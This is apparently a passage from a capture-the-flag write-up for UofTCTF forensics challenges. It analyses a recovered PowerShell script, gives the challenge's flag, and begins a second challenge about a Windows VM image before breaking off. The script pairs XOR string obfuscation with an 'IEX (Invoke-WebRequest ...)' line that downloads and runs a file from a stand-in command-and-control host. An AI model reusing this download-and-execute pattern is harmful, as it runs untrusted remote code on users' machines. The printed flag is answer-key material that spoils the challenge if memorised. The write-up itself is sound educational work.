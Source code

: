 It looked like this: 

![ps-script](https://i.ibb.co/6D766hS/Screenshot-2024-01-14-195049.png)

```powershell
$String_Key = 'W0wMadeitthisfar'

$NewValue = '$(' + (([int[]][char[]]$String | ForEach-Object { "[char]$($_)" }) -join '+') + ')'

$chars = 34, 95, 17, 57, 2, 16, 3, 18, 68, 16, 12, 54, 4, 82, 24, 45, 35, 0, 40, 63, 20, 10, 58, 25, 3, 65, 0, 20

$keyAscii = $String_Key.ToCharArray() | ForEach-Object { [int][char]$_ }

$resultArray = $chars -bxor $keyAscii

IEX (Invoke-WebRequest -Uri 'https://somec2attackerdomain.com/chrome.exe' -UseBasicParsing).Content
```

Based on the powershell script, it appears to set a key, perform a bitwise operation on ASCII representations, and then download and execute content from a specified URL.

From there we can easily decrypt it. I use CyberChef to do this and at the end of the operation we get a flag.

![flag-nogrep](https://i.ibb.co/gtkjwc7/image.png)

FLAG: uoftctf{0dd_w4y_t0_run_pw5h}

### Hourglass

> No EDR agent once again, we imaged this workstation for you to find the evil !
>
> Download Link : https://storage.googleapis.com/hourglass-uoftctf/ctf_vm.zip
>
> ( Updated Link, attachments remain the same, nothing was changed. )
>
> Author: 0x157

We are given with a Virtual Machine Image. I boot the VM and it's a Windows desktop.
I started the analysis by checking every common directory on this machine, such as:
- Documents
- Downloads
- Pictures
- Music
- Videos

After a while, I found no flags or information that contained clues other than the `Readme` file and the fake flag file. Then I thought about the title of this challenge, Hourglass, and started looking for any files or directories related to "time" and "history". After a while, I found a directory called `History` in the following path:

`C:\Users\analyst\AppData\Local\Microsoft\Windows\History`

![img-history](https://i.ibb.co/Zc7QHq1/Screenshot-2024-01-14-194829.png)
